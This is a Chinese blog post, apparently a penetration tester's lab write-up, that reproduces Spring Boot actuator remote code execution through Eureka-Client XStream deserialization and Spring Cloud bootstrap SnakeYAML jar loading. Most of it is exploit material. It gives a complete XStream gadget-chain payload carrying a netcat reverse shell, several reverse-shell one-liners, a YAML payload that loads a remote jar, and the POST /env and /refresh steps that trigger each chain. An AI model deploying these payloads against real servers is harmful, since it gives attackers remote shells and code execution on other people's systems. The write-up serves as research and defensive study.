






背景
SpringBoot应用最常见最广为人知的无非是监控actuator泄漏
1 | /autoconfig 提供了一份自动配置报告，记录哪些自动配置条件通过了，哪些没通过 |
但是后面HW过程中大佬提醒才发现Springboot actuator泄漏有些场景下还可以直接RCE，感觉错过了很多RCE
果然信息差还是很重要的，别人已经拿这个洞日天日地了收割了各种RCE我才后知后觉
复现环境
https://github.com/artsploit/actuator-testbed
把项目clone下来之后idea打开pom.xml文件等项目依赖安装完之后直接运行就好了
但是我这边可能是因为端口占用的缘故一开始怎么都跑不起来，后来修改了端口application.properties下的server.port为别的端口就没问题了。
虽然项目运行过程会有报错但实际上不影响漏洞复现
报错信息 [main] ERROR c.n.d.s.t.d.RedirectingEurekaHttpClient - Request execution error
Eureka-Client
前提条件
Eureka-Client <1.8.7（多见于Spring Cloud Netflix）
复现过程
创建xstream文件，搭建一个简易web服务
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39<linked-hash-set>
<jdk.nashorn.internal.objects.NativeString>
<value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data">
<dataHandler>
<dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource">
<is class="javax.crypto.CipherInputStream">
<cipher class="javax.crypto.NullCipher">
<serviceIterator class="javax.imageio.spi.FilterIterator">
<iter class="javax.imageio.spi.FilterIterator">
<iter class="java.util.Collections$EmptyIterator"/>
<next class="java.lang.ProcessBuilder">
<command>
<string>/bin/bash</string>
<string>-c</string>
<string>rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 172.20.10.3 7777 > /tmp/f</string>
</command>
<redirectErrorStream>false</redirectErrorStream>
</next>
</iter>
<filter class="javax.imageio.ImageIO$ContainsFilter">
<method>
<class>java.lang.ProcessBuilder</class>
<name>start</name>3
<parameter-types/>
</method>
<name>foo</name>
</filter>
<next class="string">foo</next>
</serviceIterator>
<lock/>
</cipher>
<input class="java.lang.ProcessBuilder$NullInputStream"/>
<ibuffer></ibuffer>
</is>
</dataSource>
</dataHandler>
</value>
</jdk.nashorn.internal.objects.NativeString>
</linked-hash-set>其中string插入的是反弹shell语句
1
<string>rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 172.20.10.3 7777 > /tmp/f</string>
这里我使用Flask起一个简单的服务
1
2
3
4
5
6
7
8
9
10
11
12
13from flask import Flask, Response
app = Flask(__name__)
def catch_all(path):
xml = """
<linked-hash-set>
</linked-hash-set>"""
return Response(xml, mimetype='application/xml')
if __name__ == "__main__":
app.run(host='127.0.0.1', port=2333)在攻击机上开启端口监听
nc -lvp 777
写入配置和刷新
POST /env请求并重新赋值eureka.client.serviceUrl.defaultZone=http://127.0.0.1:2333/xstream

看到响应成功后POST /refresh，请求过程会稍微停顿一下

这里会遇到一些坑稍微提一下。
因为我用的是mac电脑跑的SpringBoot项目意味着mac作为靶机，也因为mac装了zsh导致弹shell不这么顺利。
最常用的 bash反弹shell命令
bash -i >& /dev/tcp/attackerip/1234 0>&1似乎不能在zsh上面弹（具体原因我也没深究）Mac 装的nc 不支持 -i参数，第二常用命令
nc -e /bin/sh attackerip 1234也不能直接用最后网上找了一个替代不支持-i参数的nc弹shell命令
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 172.20.10.3 7777 > /tmp/f& 测试过程中如果不编码成
&弹不了shell
最后成功弹shell了！

Spring cloud bootstrap
复现过程
创建config.yml文件，具体内容为
1
2
3
4
5!!javax.script.ScriptEngineManager [
!!java.net.URLClassLoader [[
!!java.net.URL ["http://127.0.0.1:2333/config.jar"]
]]
]构造config.jar ，参照：https://github.com/artsploit/yaml-payload，修改AwesomeScriptEngineFactory.java具体执行的命令
1
2
3git clone https://github.com/artsploit/yaml-payload.git
javac src/artsploit/AwesomeScriptEngineFactory.java
jar -cvf yaml-payload.jar -C src/ .用python起一个web服务
python -m SimpleHTTPServer 2333设置环境变量并refresh


虽然服务端返回500，但是计算器是弹了出来了

总结
虽然是可以直接RCE，但是这个漏洞在利用过程中都需要修改环境配置，测试完毕后需要重新设置原来的环境变量再refresh，但是不能保证一定能还原，所以再测试过程中得小小心
参考链接
http://www.jianfensec.com/70.html